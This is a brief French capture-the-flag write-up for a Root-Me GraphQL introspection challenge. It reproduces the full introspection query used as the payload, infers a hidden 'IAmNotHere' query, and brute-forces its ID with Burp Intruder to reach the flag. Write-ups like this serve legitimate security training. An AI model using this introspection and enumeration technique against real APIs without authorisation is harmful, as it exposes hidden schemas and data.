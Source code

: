 Le challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Introspection

Vu sur https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html

On va injecter ceci 
‘‘‘
{
  "query": "query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n      }\n    }\n  }\n}\n"
}
‘‘‘

ON va voir tout ce qui est possible de faire 

On devine donc qu'on à ça 
‘‘‘
{
  IAmNotHere(very_long_id: n) {
    very_long_id
    very_long_value
  }
}
‘‘‘

On itere avec Burp avec intruder et le payload  N sur number et au 17e on obtient le flag